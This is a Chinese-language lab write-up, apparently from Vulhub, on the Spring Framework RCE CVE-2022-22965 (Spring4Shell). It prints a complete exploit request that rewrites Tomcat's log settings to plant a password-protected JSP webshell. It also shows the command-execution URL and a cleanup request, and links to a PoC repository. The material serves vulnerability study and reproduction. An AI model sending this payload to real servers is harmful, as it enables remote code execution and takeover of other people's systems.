


# Spring框架Data Binding与JDK 9+导致的远程代码执行漏洞 CVE-2022-22965

## 漏洞描述

在JDK 9+上运行的Spring MVC或Spring WebFlux应用程序可能存在通过数据绑定执行远程代码（RCE）的漏洞。

现在已知的利用方法要求应用程序以WAR部署的形式在Tomcat上运行，然而，该漏洞的性质更为普遍，可能有其他方法可以利用它。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22965
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## 环境搭建

Vulhub执行如下命令启动一个Spring WebMVC 5.3.17服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080/?name=Bob&age=25`即可看到一个演示页面。

## 漏洞复现

发送如下数据包，即可修改目标的Tomcat日志路径与后缀，利用这个方法写入一个JSP文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```



然后，访问刚写入的JSP Webshell，执行任意命令：

```
http://your-ip:8080/tomcatwar.jsp?pwd=j&cmd=id
```



注意，需要在利用完成后将`class.module.classLoader.resources.context.parent.pipeline.first.pattern`清空，否则每次请求都会写入新的恶意代码在JSP Webshell中，导致这个文件变得很大。发送如下数据包将其设置为空：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。

## 漏洞POC

- spring4shell_behinder：https://github.com/4nth0ny1130/spring4shell_behinder
